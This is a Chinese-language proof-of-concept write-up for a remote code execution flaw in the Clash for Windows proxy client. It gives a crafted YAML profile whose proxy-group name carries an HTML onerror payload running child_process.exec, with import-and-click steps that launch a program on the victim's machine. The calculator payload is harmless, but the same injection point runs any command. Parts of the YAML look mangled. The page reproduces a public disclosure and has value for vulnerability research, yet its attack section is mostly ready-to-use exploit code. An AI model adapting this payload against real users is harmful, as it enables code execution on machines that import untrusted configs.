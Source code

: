 # Clash_for_Windows-远程代码执行漏洞:漏洞利用poc,远程rce


Clash_for_Windows远程代码执行漏洞:

# 0x01:clash介绍



```
A Windows/macOS/Linux GUI based on Clash and Electron.
```

# 

# 0x02:漏洞复现



## 从以下链接下载Windows版本：



<div>

https://github.com/Fndroid/clash_for_windows_pkg/releases
</div>



## 在windows10虚拟机中打开Clash_for_Windows

# 0x03:poc

```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
name: atype: socks5
server: 127.0.0.1
port: "17938"
skip-cert-verify: true
name: abc
type: socks5
server: 127.0.0.1
port: "8088"
skip-cert-verify: true
proxy-groups:
name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
type: select
proxies:
- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

```

## 导入该poc：



import



### 在当前界面点击：



Proxies



# 此时弹出计算器，漏洞成功利用。



# 0x04:

###### 原作者pr链接：



<div>
https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 
</div>



里面包含了poc和复现方法。



本次本地复现来源于上述链接！




